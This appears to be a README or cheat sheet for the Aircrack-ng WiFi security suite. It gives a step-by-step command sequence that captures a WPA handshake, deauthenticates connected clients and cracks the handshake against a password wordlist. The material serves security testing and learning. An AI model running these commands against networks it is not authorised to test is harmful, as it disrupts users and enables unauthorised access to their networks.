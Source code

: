 # Aircrack-ng

[Official Website](https://aircrack-ng.org)

## What is Aircrack-ng

Aircrack-ng is a complete suite of tools to assess WiFi network security.

It focuses on different areas of WiFi security:

* Monitoring: Packet capture and export of data to text files for further processing by third party tools
* Attacking: Replay attacks, deauthentication, fake access points and others via packet injection
* Testing: Checking WiFi cards and driver capabilities (capture and injection)
* Cracking: WEP and WPA PSK (WPA 1 and 2)

All tools are command line which allows for heavy scripting. A lot of GUIs have taken advantage of this feature. It works primarily on Linux but also Windows, macOS, FreeBSD, OpenBSD, NetBSD, as well as Solaris and even eComStation 2.

## Installation

* Pre-Installed on Kali Linux


## General Information

* As more clients connected in WiFi Network as more likly it is that you can catch Handshake
* As more strong signal / more near to WiFi Accesspoint, as more successfully it is to fetch handshake's

## How to use

**Stop NetworkManager to aviod problems with Aircrack-ng**
`sudo systemctl stop NetworkManager`

**List WiFi-Networks**
`sudo airodump-ng wlan0`

**Try to Fetch Handshake ans Store Handshake**
`sudo airodump-ng -c  6 --bssid  00:00:00:00:00:00 -w /home/parallels/Desktop/wlan/hack wlan0`

**Deauth Clients in Network**
`sudo aireplay-ng  --deauth 10 -a  00:00:00:00:00:00 wlan0`

**Cracking Handshake with Password List**
`aircrack-ng -b 00:00:00:00:00:00 -w  /usr/share/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt Desktop/hack-07.cap`

**Start NetworkManager again. If you still can't connect to your Network, restart OS**
`sudo service network-manager start`


